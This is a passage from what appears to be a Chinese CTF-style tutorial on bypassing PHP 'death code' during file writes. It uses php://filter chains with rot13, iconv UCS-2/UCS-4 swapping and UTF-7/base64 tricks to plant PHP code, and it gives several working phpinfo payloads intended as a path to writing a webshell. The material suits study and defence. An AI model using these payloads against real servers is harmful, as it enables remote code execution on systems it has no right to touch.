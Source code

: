 > 
**base64编码绕过：**



> 
**rot13编码绕过：**<br/> rot13则无需考虑=号问题


```
Payload：

?content=php://filter/string.rot13/&lt;?cuc cucvasb();?&gt;/resource=1.php

```

> 
**iconv字符编码绕过：**<br/> 在php中iconv函数库能够完成各种字符集间的转换<br/> 在该函数库下有一个`convert.iconv.`这样的过滤器，这个过滤器需要php支持iconv，而iconv是默认编译的，使用`convert.iconv.*`过滤器等同于用iconv()函数处理所有的流数据


> 
利用方式就是用此过滤器，从而进行编码的转换，转换掉死亡代码，写入自己的shell，首先先要了解一下UCS的两种编码格式UCS-2和UCS-4：

来看一下利用这个函数即不同的格式转换后的结果：<br/> 第二个之所以要加上两个字符，是因为UCS-4对目标字符串是4位一反转，所以要注意这里的恶意代码要是4的倍数，所以这里需要补上两个字符<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210528004353240.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>


> 
**UCS-2利用：**<br/> 对目标字符串进行2位一反转<br/> (一定要计算好长度，写入php文件中的内容在`?&lt;hp phpipfn(o;)&gt;?`之前的一定要是2的倍数，就像下面的Payload前面的是57个字符，加了一个?凑成58字符，做题时可以通过本地测试Payload，成功后再利用)


```
Payload：

?content=php://filter//convert.iconv.UCS-2LE.UCS-2BE|??&lt;hp phpipfn(o;)&gt;?/resource=22.php

```

> 
**UCS-4的利用：**<br/> 对目标字符串进行4位一反转，一定要拼凑够4的倍数(构造道理同UCS-2)


```
Payload：

?content=php://filter//convert.iconv.UCS-4LE.UCS-4BE|aaa?&lt;ba phpiphp(ofn&gt;?;)/resource=33.php

```

> 
**组合拳UTF-8/UTF-7：**<br/> 上面的这种base64编码`php://filter/convert.base64-decode/PD9waHAgcGhwaW5mbygpOz8+/resource=H3rmesk1t.php`，之所以payload无法执行是因为受到了等号的影响，但是通过测试发现可以利用UTF-8和UTF-7间的转换了来绕过等号，再解码时发现=没有转换回来


> 
所以可以利用这种特性来嵌套过滤器，从而绕过等号


```
Payload：

php://filter/write=PD9waHAgcGhwaW5mbygpOz8+|convert.iconv.utf-8.utf-7|convert.base64-decode/resource=H3rmesk1t.php

经过测试发现，write=一定要写进去，如果不写PHP不会去自动识别，同时内容要写在前面，如果写在后面内容写会写入，但是解析不了，如：
php://filter/write=convert.iconv.utf-8.utf-7|convert.base64-decode/PD9waHAgcGhwaW5mbygpOz8+/resource=H3rmesk1t.php

```
